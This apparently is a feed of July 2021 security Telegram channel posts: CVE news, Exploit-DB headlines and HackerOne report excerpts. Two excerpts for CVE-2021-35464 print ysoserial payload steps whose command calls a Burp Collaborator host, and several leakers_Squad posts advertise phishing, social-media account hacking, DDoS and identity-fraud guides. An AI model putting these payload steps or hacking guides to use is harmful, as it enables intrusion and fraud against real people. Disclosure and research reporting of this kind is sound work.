


# defcon_news
`2021-07-31 17:49:48`

<blockquote>
Several techniques on non-paged pool overflow exploitation including a poc for CVE-2020-17087 (Windows Kernel Cryptography Driver) and an off-by-one overflow.
https://www.reddit.com/r/netsec/comments/ov70ib/several_techniques_on_nonpaged_pool_overflow/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/ov70ib/several_techniques_on_nonpaged_pool_overflow/">
https://www.reddit.com/r/netsec/comments/ov70ib/several_techniques_on_nonpaged_pool_overflow/
</a>
<blockquote>
Posted in r/netsec by u/lunasalmon • 3 points and 0 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-31 09:49:38`

<blockquote>
Уязвимость в http2-модуле из состава Node.js
https://www.opennet.ru/opennews/art.shtml?num&#61;55568

via OpenNews.opennet.ru: Проблемы безопасности
</blockquote>

<table><tr><td><b>→</b><a href="https://www.opennet.ru/opennews/art.shtml?num=55568">
https://www.opennet.ru/opennews/art.shtml?num=55568
</a>
<blockquote>
Разработчики серверной JavaScript-платформы Node.js опубликовали корректирующие выпуски 12.22.4, 14.17.4 и 16.6.0, в которых частично устранена уязвимость (CVE-2021-22930) в модуле http2 (клиент HTTP/2.0), позволяющая инициировать крах процесса или потенциально организовать выполнение своего кода в системе при обращении к подконтрольному злоумышленнику хосту.
</blockquote>
</td></tr></table>

---

# leakers_Squad
`2021-07-30 12:37:20`

<blockquote>
⛔🇼‌🇭‌🇦‌🇹‌  🇮‌🇸‌  
🇸‌🇺‌🇧‌🇩‌🇴‌🇲‌🇦‌🇮‌🇳‌  
🇪‌🇳‌🇺‌🇲‌🇪‌🇷‌🇦‌🇹‌🇮‌🇴‌🇳‌❓

🦊𝙎𝙪𝙗𝙙𝙤𝙢𝙖𝙞𝙣 𝙚𝙣𝙪𝙢𝙚𝙧𝙖𝙩𝙞𝙤𝙣 𝙞𝙨 𝙖 𝙥𝙧𝙤𝙘𝙚𝙨𝙨 𝙤𝙛 𝙛𝙞𝙣𝙙𝙞𝙣𝙜 𝙨𝙪𝙗𝙙𝙤𝙢𝙖𝙞𝙣𝙨 𝙛𝙤𝙧 𝙤𝙣𝙚 𝙤𝙧 𝙢𝙤𝙧𝙚 𝙙𝙤𝙢𝙖𝙞𝙣𝙨. &#35;imk

🦊𝘼 𝙨𝙪𝙗𝙙𝙤𝙢𝙖𝙞𝙣 𝙞𝙨, 𝙖𝙨 𝙩𝙝𝙚 𝙣𝙖𝙢𝙚 𝙬𝙤𝙪𝙡𝙙 𝙨𝙪𝙜𝙜𝙚𝙨𝙩, 𝙖𝙣 𝙖𝙙𝙙𝙞𝙩𝙞𝙤𝙣𝙖𝙡 𝙨𝙚𝙘𝙩𝙞𝙤𝙣 𝙤𝙛 𝙮𝙤𝙪𝙧 𝙢𝙖𝙞𝙣 𝙙𝙤𝙢𝙖𝙞𝙣 𝙣𝙖𝙢𝙚. 𝙔𝙤𝙪 𝙘𝙧𝙚𝙖𝙩𝙚 𝙨𝙪𝙗𝙙𝙤𝙢𝙖𝙞𝙣𝙨 𝙩𝙤 𝙝𝙚𝙡𝙥 𝙤𝙧𝙜𝙖𝙣𝙞𝙯𝙚 𝙖𝙣𝙙 𝙣𝙖𝙫𝙞𝙜𝙖𝙩𝙚 𝙩𝙤 𝙙𝙞𝙛𝙛𝙚𝙧𝙚𝙣𝙩 𝙨𝙚𝙘𝙩𝙞𝙤𝙣𝙨 𝙤𝙛 𝙮𝙤𝙪𝙧 𝙢𝙖𝙞𝙣 𝙬𝙚𝙗𝙨𝙞𝙩𝙚. 𝙒𝙞𝙩𝙝𝙞𝙣 𝙮𝙤𝙪𝙧 𝙢𝙖𝙞𝙣 𝙙𝙤𝙢𝙖𝙞𝙣, 𝙮𝙤𝙪 𝙘𝙖𝙣 𝙝𝙖𝙫𝙚 𝙖𝙨 𝙢𝙖𝙣𝙮 𝙨𝙪𝙗𝙙𝙤𝙢𝙖𝙞𝙣𝙨 𝙖𝙨 𝙣𝙚𝙘𝙚𝙨𝙨𝙖𝙧𝙮 𝙩𝙤 𝙜𝙚𝙩 𝙩𝙤 𝙖𝙡𝙡 𝙤𝙛 𝙩𝙝𝙚 𝙙𝙞𝙛𝙛𝙚𝙧𝙚𝙣𝙩 𝙥𝙖𝙜𝙚𝙨 𝙤𝙛 𝙮𝙤𝙪𝙧 𝙬𝙚𝙗𝙨𝙞𝙩𝙚. &#35;𝙞𝙢𝙠

🍏Tool Link🍏  

🍎altdns https://github.com/infosec-au/altdns 
🍎Amass https://github.com/OWASP/Amass 
🍎censys-subdomain-finder https://github.com/christophetd/censys-subdomain- 
finder 
🍎dr_robot https://github.com/sandialabs/dr_robot 
🍎Fierce https://www.aldeid.com/wiki/Fierce 
🍎Gobuster https://github.com/OJ/gobuster 
🍎Knock https://github.com/guelfoweb/knock 
🍎Knock.py https://github.com/santiko/KnockPy/blob/master/kn 
ock.py 
🍎Pentest Tools Find Subdomains https://pentest-tools.com/information- 
gathering/find-subdomains-of-domain 
🍎Security Trails https://securitytrails.com 
🍎spyse_ Subdomain Finder https://spyse.com/tools/subdomain-finder 
🍎subbrute https://github.com/TheRook/subbrute 
🍎subfinder https://github.com/projectdiscovery/subfinder 
🍎Sublist3r https://github.com/aboul3la/Sublist3r 
🍎subscraper https://github.com/m8r0wn/subscraper 
🍎urlscan https://urlscan.io

🍎Course🍎
https://mega.nz/folder/p10jCCQL&#35;UiDzJIjiL3G4iPsd-76hBw

⚠️Full Ethical Hacking⚠️
https://telegra.ph/How-to-become-a-ethical-hacker-02-28

🦁Regards&#61;@its_me_kali
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/infosec-au/altdns">
https://github.com/infosec-au/altdns
</a>
<blockquote>
Generates permutations, alterations and mutations of subdomains and then resolves them - GitHub - infosec-au/altdns: Generates permutations, alterations and mutations of subdomains and then resolve...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-30 00:49:31`

<blockquote>
U.S. Dept Of Defense: Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464)
https://vulners.com/hackerone/H1:1249456?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss

via Vulners
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1249456?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1249456?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
RCE is possible thanks to unsafe Java deserialization in the Jato framework used by OpenAM. Impact An unauthenticated, 3rd-party attacker or adversary can execute remote code Supporting Material/References  https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464  System Host(s)  █████ Affected Product(s) and Version(s) CVE Numbers CVE-2021-35464 Steps to Reproduce Steps To Reproduce Target domain:  █████ First we need to build the payload: 1. Download this jar file  wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar then  java -jar ysoserial-master-SNAPSHOT.jar Click1 &quot;curl https://g0h7qcjzwzpzdh2ar6b5f9x3puvkj9.burpcollaborator.net&quot; | (echo -ne \\x00 &amp;&amp; cat) | base64 | tr '/+' '_-' | tr -d '&#61;' | tr -d '\n' &gt; payload.txt  You need to change the burp Collaborator id to test it properly.  The payload is now saved in the payload.txt file.  Now we need to use the following request: GET / ██████████&#61;XYZ HTTP/1.1 Host: 127.0.0.1 Replace XYZ by the…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-30 00:49:30`

<blockquote>
U.S. Dept Of Defense: Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464)
https://vulners.com/hackerone/H1:1248040?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss

via Vulners
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1248040?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1248040?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
RCE is possible thanks to unsafe Java deserialization in the Jato framework used by OpenAM. Supporting Material/References  https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464  Impact An unauthenticated, 3rd-party attacker or adversary can execute remote code System Host(s)  ████ Affected Product(s) and Version(s) ForgeRock OpenAM CVE Numbers CVE-2021-35464 Steps to Reproduce First we need to build the payload: 1. Download this jar file  wget https://github.com/Bin4xin/sweet-ysoserial/blob/master/target/ysoserial-0.0.6-SNAPSHOT-all.jar then  java -jar ysoserial-master-SNAPSHOT.jar Click1 &quot;curl https://g0h7qcjzwzpzdh2ar6b5f9x3puvkj9.burpcollaborator.net&quot; | (echo -ne \\x00 &amp;&amp; cat) | base64 | tr '/+' '_-' | tr -d '&#61;' | tr -d '\n' &gt; payload.txt  You need to change the burp Collaborator id to test it properly.  The payload is now saved in the payload.txt file.  Now we need to use the following request: GET / ██████████&#61;XYZ HTTP/1.1 Host: 127.0.0.1 Replace XYZ by the payload saved into the…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-29 19:49:29`

<blockquote>
Root Cause Analysis of a Printer's Drivers Vulnerability CVE-2021-3438 - VoidSec
https://www.reddit.com/r/netsec/comments/otzr4h/root_cause_analysis_of_a_printers_drivers/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/otzr4h/root_cause_analysis_of_a_printers_drivers/">
https://www.reddit.com/r/netsec/comments/otzr4h/root_cause_analysis_of_a_printers_drivers/
</a>
<blockquote>
Posted in r/netsec by u/Void_Sec • 4 points and 2 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-29 19:49:18`

<blockquote>
UPchieve: Vulnerability Report - sweet32 UPchieve
https://vulners.com/hackerone/H1:1271701?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss

via Vulners
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1271701?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1271701?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Hello Team. I run the nmap with ssl-enum script to look for new Vulnerability that is known as &quot;SWEET32&quot; Detail about sweet32 vuln:~ Cryptographic protocols like TLS, SSH, IPsec, and OpenVPN commonly use block cipher algorithms, such as AES, Triple-DES, and Blowfish, to encrypt data between clients and servers. To use such algorithms, the data is broken into fixed-length chunks, called blocks, and each block is encrypted separately according to a mode of operation. Older block ciphers, such as Triple-DES and Blowfish use a block size of 64 bits, whereas AES uses a block size of 128 bits. note: this vulnerability and exploitation has been demo'ed at defcon ref site: https://sweet32.info/ Here is another article on sweet32 https://bobcares.com/blog/how-to-fix-sweet32-birthday-attacks-vulnerability-cve-2016-2183/ Steps: run nmap 2. type nmap --script ssl-enum-ciphers hackers.upchieve.org 3. now hit enter and let it do its work and after it done you will find that https:443 is vulnerable to sweet32. TLSv1.0 is vulnerable.…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-29 12:53:19`

<blockquote>
[webapps] Oracle Fatwire 6.3 - Multiple Vulnerabilities
https://www.exploit-db.com/exploits/50167

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50167">
https://www.exploit-db.com/exploits/50167
</a>
<blockquote>
Oracle Fatwire 6.3 - Multiple Vulnerabilities.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-29 12:53:16`

<blockquote>
[webapps] CloverDX 5.9.0 - Cross-Site Request Forgery (CSRF) to Remote Code Execution (RCE)
https://www.exploit-db.com/exploits/50166

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50166">
https://www.exploit-db.com/exploits/50166
</a>
<blockquote>
CloverDX 5.9.0 - Cross-Site Request Forgery (CSRF) to Remote Code Execution (RCE). CVE-2021-29995 . webapps exploit for Java platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-29 12:53:15`

<blockquote>
[webapps] Care2x Integrated Hospital Info System 2.7 - 'Multiple' SQL Injection
https://www.exploit-db.com/exploits/50165

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50165">
https://www.exploit-db.com/exploits/50165
</a>
<blockquote>
Care2x Integrated Hospital Info System 2.7 - 'Multiple' SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-29 12:53:13`

<blockquote>
[webapps] IntelliChoice eFORCE Software Suite 2.5.9 - Username Enumeration
https://www.exploit-db.com/exploits/50164

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50164">
https://www.exploit-db.com/exploits/50164
</a>
<blockquote>
IntelliChoice eFORCE Software Suite 2.5.9 - Username Enumeration.. webapps exploit for ASPX platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-29 11:50:46`

<blockquote>
[webapps] Longjing Technology BEMS API 1.21 - Remote Arbitrary File Download
https://www.exploit-db.com/exploits/50163

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50163?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50163?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Longjing Technology BEMS API 1.21 - Remote Arbitrary File Download.. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-29 11:50:45`

<blockquote>
[webapps] Denver IP Camera SHO-110 - Unauthenticated Snapshot
https://www.exploit-db.com/exploits/50162

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50162?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50162?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Denver IP Camera SHO-110 - Unauthenticated Snapshot.. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# phd_soc
`2021-07-29 11:43:19`

<blockquote>
https://github.com/cfalta/MicrosoftWontFixList/blob/main/README.md
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/cfalta/MicrosoftWontFixList/blob/main/README.md">
https://github.com/cfalta/MicrosoftWontFixList/blob/main/README.md
</a>
<blockquote>
A list of vulnerabilities or design flaws that Microsoft does not intend to fix. Since the number is growing, I decided to make a list. This list covers only vulnerabilities that came up in July 20...
</blockquote>
</td></tr></table>

---

# leakers_Squad
`2021-07-29 11:10:43`

<blockquote>
🍎Phishing 2021 Guide 🍎

https://telegra.ph/Phishing-Guide-03-07

💙Advance ANdroid Hacking Course  Free❤

💙Introduction to Termux
💙Checking the status of target Machine
💙Miscellaneous Hacking
💙DDOS Attack
💙SQL mapping
💙Finding Location
💙Web Scanning
💙Phishing Attack
💙Brute Force Attack
💙Installation SEtoolkit
💙Instagram Hacking 
💙Fb hacking 

🐱Cat Phishing🐱
https://telegra.ph/Cat-Phishing--Indentity-Fraud-04-24

🍎https://mega.nz/folder/NLoWTZ5b&#35;foX6MUseq8bNWirF_3eS1A

❤🎛Best Tool🎛❤

💰Social Engineering Toolkit
https://github.com/trustedsec/social-engineer-toolkit

💰Mr Phish
https://github.com/noob-hackers/mrphish

💰Gophish Tutorial
https://youtu.be/S6S5JF6Gou0

❤Regards&#61;@its_me_kali
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/Phishing-Guide-03-07">
https://telegra.ph/Phishing-Guide-03-07
</a>
<blockquote>
So today we are going to learn phishing and what is it !!!
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-29 00:49:42`

<blockquote>
Detecting potential exploits of CVE-2021-33909 &quot;Sequoia&quot; with Falco - Linux FS privilege escalation
https://www.reddit.com/r/Malware/comments/otexrk/detecting_potential_exploits_of_cve202133909/

via Malware Analysis &amp; Reports
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/Malware/comments/otexrk/detecting_potential_exploits_of_cve202133909/">
https://www.reddit.com/r/Malware/comments/otexrk/detecting_potential_exploits_of_cve202133909/
</a>
<blockquote>
Posted in r/Malware by u/capitangolo • 1 point and 0 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-28 22:50:35`

<blockquote>
Detecting potential exploits of CVE-2021-33909 &quot;Sequoia&quot; with Falco - Linux FS privilege escalation
https://www.reddit.com/r/netsec/comments/otexnf/detecting_potential_exploits_of_cve202133909/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/otexnf/detecting_potential_exploits_of_cve202133909/">
https://www.reddit.com/r/netsec/comments/otexnf/detecting_potential_exploits_of_cve202133909/
</a>
<blockquote>
Posted in r/netsec by u/capitangolo • 15 points and 0 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-28 11:49:23`

<blockquote>
[remote] Denver Smart Wifi Camera SHC-150 - 'Telnet' Remote Code Execution (RCE)
https://www.exploit-db.com/exploits/50160

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50160">
https://www.exploit-db.com/exploits/50160
</a>
<blockquote>
Denver Smart Wifi Camera SHC-150 - 'Telnet' Remote Code Execution (RCE).. remote exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-28 11:49:23`

<blockquote>
[webapps] TripSpark VEO Transportation - Blind SQL Injection
https://www.exploit-db.com/exploits/50161

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50161?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50161?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
TripSpark VEO Transportation - Blind SQL Injection.. webapps exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-28 11:49:21`

<blockquote>
[webapps] Event Registration System with QR Code 1.0 - Authentication Bypass &amp; RCE
https://www.exploit-db.com/exploits/50159

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50159?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50159?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Event Registration System with QR Code 1.0 - Authentication Bypass &amp; RCE.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# exploitex
`2021-07-28 09:20:06`

* https://telegra.ph/file/85392605025d86fde5534.jpg
* https://thebell.io/biznes-vsemirno-izvestnyh-izrailskih-hakerov-novaya-ugroza-dlya-facebook-i-kakim-budet-sleduyushhij-bolshoj-trend-v-sotssetyah
* https://github.com/mvt-project/mvt
* https://github.com/mvt-project/mvt

<blockquote>
​Как проверить, заражен ли ваш смартфон шпионским ПО Pegasus

Совсем недавно мировую общественность потрясла новость о том, что как минимум 10 стран использовали шпионское ПО Pegasus, чтобы взламывать смартфоны активистов, журналистов и бизнесменов, в числе которых оказался даже Павел Дуров. 

Pegasus способен получать доступ ко всему содержимому смартфона: звонкам, сообщениям, отслеживать геолокацию, включать камеру и аудио и так далее. А чтобы заразить устройство, цели достаточно всего лишь перейти по ссылке. 

Хотя это крайне маловероятно, что ваш телефон был взломан программой NSO, с помощью утилиты MVT вы можете проверить смартфон iOS или Android на признаки Pegasus. 

Сначала вам понадобится подключить смартфон к компьютеру и сделать резервную копию вашей системы, а затем запустить утилиту в командной строке. Процесс сканирования дампа системы займет не больше 10 минут. Подробную инструкцию вы можете найти здесь. 

&#35;безопасность
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/85392605025d86fde5534.jpg">
https://telegra.ph/file/85392605025d86fde5534.jpg
</a>
</td></tr></table>

---

# freedomf0x
`2021-07-27 17:29:02`

<blockquote>
&#35;threatleak 

https://research.nccgroup.com/2021/07/26/technical-advisory-sunhillo-sureline-unauthenticated-os-command-injection-cve-2021-36380/
</blockquote>

<table><tr><td><b>→</b><a href="https://research.nccgroup.com/2021/07/26/technical-advisory-sunhillo-sureline-unauthenticated-os-command-injection-cve-2021-36380/">
https://research.nccgroup.com/2021/07/26/technical-advisory-sunhillo-sureline-unauthenticated-os-command-injection-cve-2021-36380/
</a>
<blockquote>
Technical Advisory - Sunhillo SureLine Unauthenticated OS Command Injection (CVE-2021-36380)
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-27 16:49:57`

<blockquote>
Apple исправила 0-day баг, опасный для iOS, iPadOS и macOS
https://xakep.ru/2021/07/27/cve-2021-30807/

via «Хакер»
</blockquote>

<table><tr><td><b>→</b><a href="https://xakep.ru/2021/07/27/cve-2021-30807/">
https://xakep.ru/2021/07/27/cve-2021-30807/
</a>
<blockquote>
Разработчики Apple выпустили патчи для iOS, iPadOS и macOS, устраняющие уязвимость нулевого дня, которая, по данным компании, уже используется для атак.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-27 12:49:51`

<blockquote>
[webapps] Customer Relationship Management System (CRM) 1.0 - Sql Injection Authentication Bypass
https://www.exploit-db.com/exploits/50158

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50158?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50158?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Customer Relationship Management System (CRM) 1.0 - Sql Injection Authentication Bypass.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-27 11:49:23`

<blockquote>
[webapps] PHP 7.3.15-3 - 'PHP_SESSION_UPLOAD_PROGRESS' Session Data Injection
https://www.exploit-db.com/exploits/50156

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50156">
https://www.exploit-db.com/exploits/50156
</a>
<blockquote>
PHP 7.3.15-3 - 'PHP_SESSION_UPLOAD_PROGRESS' Session Data Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-27 10:49:24`

<blockquote>
CVE-2021-30807 (iOS IOMobileFrameBuffer LPE): Finding and Exploiting the Vulnerability
https://www.reddit.com/r/netsec/comments/osgku2/cve202130807_ios_iomobileframebuffer_lpe_finding/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/osgku2/cve202130807_ios_iomobileframebuffer_lpe_finding/">
https://www.reddit.com/r/netsec/comments/osgku2/cve202130807_ios_iomobileframebuffer_lpe_finding/
</a>
<blockquote>
Posted in r/netsec by u/0xdea • 12 points and 2 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-27 10:49:23`

<blockquote>
CVE-2020-28653 Pre-Auth RCE in ManageEngine OPManager
https://www.reddit.com/r/netsec/comments/os4r5k/cve202028653_preauth_rce_in_manageengine_opmanager/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/os4r5k/cve202028653_preauth_rce_in_manageengine_opmanager/?utm_source=ifttt">
https://www.reddit.com/r/netsec/comments/os4r5k/cve202028653_preauth_rce_in_manageengine_opmanager/?utm_source=ifttt
</a>
<blockquote>
Posted in r/netsec by u/haxolotls • 3 points and 0 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-27 09:50:04`

<blockquote>
Backdoor.Win32.Nbdd.bgz / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jul/71

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/71">
https://seclists.org/fulldisclosure/2021/Jul/71
</a>
</td></tr></table>

---

# defcon_news
`2021-07-27 09:50:03`

<blockquote>
Backdoor.Win32.Bifrose.acci / Local Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jul/70

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/70">
https://seclists.org/fulldisclosure/2021/Jul/70
</a>
</td></tr></table>

---

# defcon_news
`2021-07-27 09:50:02`

<blockquote>
Backdoor.Win32.PsyRat.b / Remote Denial of Service
https://seclists.org/fulldisclosure/2021/Jul/69

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/69">
https://seclists.org/fulldisclosure/2021/Jul/69
</a>
</td></tr></table>

---

# defcon_news
`2021-07-27 09:50:00`

<blockquote>
Backdoor.Win32.Agent.cu / Unauthenticated Remote Command Execution
https://seclists.org/fulldisclosure/2021/Jul/67

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/67">
https://seclists.org/fulldisclosure/2021/Jul/67
</a>
</td></tr></table>

---

# defcon_news
`2021-07-27 09:50:00`

<blockquote>
Backdoor.Win32.PsyRat.b / Unauthenticated Remote Command Execution
https://seclists.org/fulldisclosure/2021/Jul/68

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/68">
https://seclists.org/fulldisclosure/2021/Jul/68
</a>
</td></tr></table>

---

# defcon_news
`2021-07-27 09:49:59`

<blockquote>
Backdoor.Win32.Agent.cu / Port Bounce Scan (MITM)
https://seclists.org/fulldisclosure/2021/Jul/66

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/66">
https://seclists.org/fulldisclosure/2021/Jul/66
</a>
</td></tr></table>

---

# defcon_news
`2021-07-27 09:49:58`

<blockquote>
Backdoor.Win32.Agent.cu / Authentication Bypass RCE
https://seclists.org/fulldisclosure/2021/Jul/65

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/65">
https://seclists.org/fulldisclosure/2021/Jul/65
</a>
</td></tr></table>

---

# defcon_news
`2021-07-27 09:49:54`

<blockquote>
Backdoor.Win32.Mazben.me / Unauthenticated Open Proxy
https://seclists.org/fulldisclosure/2021/Jul/64

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/64">
https://seclists.org/fulldisclosure/2021/Jul/64
</a>
</td></tr></table>

---

# defcon_news
`2021-07-27 09:49:54`

<blockquote>
Backdoor.Win32.Hupigon.aaur / Unauthenticated Open Proxy
https://seclists.org/fulldisclosure/2021/Jul/63

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/63">
https://seclists.org/fulldisclosure/2021/Jul/63
</a>
</td></tr></table>

---

# defcon_news
